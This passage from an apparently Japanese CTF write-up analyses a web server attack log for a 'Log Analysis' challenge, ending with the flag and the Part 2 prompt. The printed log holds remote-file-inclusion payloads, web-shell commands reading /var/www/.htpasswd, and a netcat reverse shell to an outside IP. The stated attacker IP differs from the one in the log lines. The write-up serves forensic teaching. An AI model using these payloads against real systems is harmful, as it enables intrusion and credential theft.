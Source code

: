 <br>

なお、このときのattackerのIPアドレスは 20.132.161.193 なので、それでフィルターすると、より詳しく攻撃内容がわかります。

<pre>
$ grep RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ attack.log | cut -d" " -f9
20.132.161.193

$ grep 20.132.161.193 attack.log | cut -d" " -f1,2,3,4,5,6
2021-09-06 20:43:00 135.233.142.30 GET runtime-es2015.43df09c2199138dc23a5.js -
2021-09-06 20:43:00 135.233.142.30 GET main-es2015.5dfab9e1774faff15645.js -
2021-09-06 20:43:00 135.233.142.30 GET faq locale=http://bglzqntj.io:19/bglzqntj.txt%00
2021-09-06 20:43:21 135.233.142.30 GET runtime-es2015.43df09c2199138dc23a5.js -
2021-09-06 20:43:21 135.233.142.30 GET assets/images/community/cal-bg.svg -
2021-09-06 20:43:21 135.233.142.30 GET assets/images/ctf/2021-01/offsec-logo.svg -
2021-09-06 20:43:21 135.233.142.30 GET faq locale=http://ronworwu.io:0/ronworwu.txt%00
2021-09-06 20:43:33 135.233.142.30 GET 6-es2015.2c367e3b65026d7698d3.js -
2021-09-06 20:43:33 135.233.142.30 GET main-es5.5dfab9e1774faff15645.js -
2021-09-06 20:43:33 135.233.142.30 GET runtime-es5.43df09c2199138dc23a5.js -
2021-09-06 20:43:33 135.233.142.30 GET faq locale=http://rnugvbtp.io:26/rnugvbtp.txt%00
2021-09-06 20:43:51 135.233.142.30 GET cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js -
2021-09-06 20:43:51 135.233.142.30 GET faq locale=http://xyztftsz.io:7/xyztftsz.txt%00
2021-09-06 20:43:59 135.233.142.30 GET assets/images/community/cal-bg.svg -
2021-09-06 20:43:59 135.233.142.30 GET main-es5.5dfab9e1774faff15645.js -
2021-09-06 20:43:59 135.233.142.30 GET 6-es2015.2c367e3b65026d7698d3.js -
2021-09-06 20:43:59 135.233.142.30 GET faq locale=http://ejlaadxk.io:4/ejlaadxk.txt%00
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+..
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ==
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213
</pre>


<br />

Flag: `DO{better_remove_that_backdoor}`




<br /><br />
<br /><br />
## [Log Analysis]: Part 2 - Investigation (150 points)
- - -
### Challenge
> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
<br /><br />
We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
<br /><br />
Please submit the attackers IP as the flag as follow, DO{x.x.x.x}
